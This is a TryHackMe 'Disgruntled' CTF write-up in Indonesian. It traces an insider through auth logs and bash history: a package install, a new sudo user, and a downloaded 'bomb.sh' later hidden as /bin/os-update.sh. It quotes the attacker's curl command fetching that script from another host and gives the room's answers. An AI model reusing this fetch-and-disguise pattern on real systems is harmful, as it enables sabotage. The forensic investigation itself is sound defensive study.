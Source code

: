 # Disgruntled
- TryHackMe Challenge: https://tryhackme.com/room/disgruntled
- IP Machine: 10.10.166.127

## Task 1 Introduction
- Akses machine dengan SSH kemudian masukkan password sesuai petunjuk soal
```sh
ssh root@IP_Machine
```

## Task 3 Nothing suspicious... So far
- **Pertanyaan:** The user installed a package on the machine using elevated privileges. According to the logs, what is the full COMMAND?
- Untuk menemukan jawabannya kita bisa mengecek file **/var/log/auth.log**. Kemudian untuk menginstall package biasanya diikuti kata "install", sehingga kita bisa memfilter log yang mengandung kata "install"
```sh
cat /var/log/auth.log | grep install
```

- **Jawaban:**
```sh
/usr/bin/apt install dokuwiki
```

- **Pertanyaan:** What was the present working directory (PWD) when the previous command was run?
- Tinggal kita lihat nilai PWD di log

- **Jawaban:**
```sh
/home/cybert
```

## Task 4 Let’s see if you did anything bad
- **Pertanyaan:** Which user was created after the package from the previous task was installed?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "adduser"
```sh
cat /var/log/auth.log | grep adduser
```

- **Jawaban:**
```sh
it-admin
```

- **Pertanyaan:** A user was then later given sudo priveleges. When was the sudoers file updated? (Format: Month Day HH:MM:SS)
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "visudo". Visudo adalah tool digunakan untuk memperbarui atau memodifikasi file sudoers.
```sh
cat /var/log/auth.log | grep visudo
```

- **Jawaban:**
```sh
Dec 28 06:27:34
```

- **Pertanyaan:** A script file was opened using the "vi" text editor. What is the name of this file?
- Kita bisa menemukan jawabannya di file yang sama. Kemudian kita memfilter yang mengandung kata "vi"
```sh
cat /var/log/auth.log | grep vi
```

- **Jawaban:**
```sh
bomb.sh
```

## Task 5 Bomb has been planted. But when and where?
- **Pertanyaan:** What is the command used that created the file `bomb.sh` ?
- Dari pertanyaan Task 4, kita mengetahui bahwa file `bomb.sh` berada di path **/home/it-admin**

- Kemudian kita lihat riwayat perintah di path tersebut dengan bash history
```sh
cat /home/it-admin/.bash_history
```

- **Jawaban:**
```sh
curl 10.10.158.38:8080/bomb.sh --output bomb.sh
```

- **Pertanyaan:** The file was renamed and moved to a different directory. What is the full path of this file now?
- Dari pertanyaan Task 4, kita mengetahui bahwa penyerang menggunakan vi editor jadi kita bisa mengecek riwayat entry kemudian memfilter riwayat yang mengandung kata "saveas" untuk melacak perubahan nama file
```sh
/bin/os-update.sh
```

- **Pertanyaan:** When was the file from the previous question last modified? (Format: Month Day HH:MM)
- Kita bisa menggunakan ls untuk mengetahui kapan file tersebut dimodifikasi terakhir kali. Namun sayangnya kita tidak dapat mengetahui pukul berapa file tersebut diubah
```sh
ls -la /bin | grep os-update
```

- Kita dapat menggunakan tool date untuk menampilkan detail waktunya
```sh
date -r /bin/os-update.sh
```

- **Jawaban:**
```sh
Dec 28 06:29
```

- **Pertanyaan:** What is the name of the file that will get created when the file from the first question executes?
- Buka file **os-update.sh**
```sh
cat /bin/os-update.sh
```

**Jawaban:**
```sh
goodbye.txt
```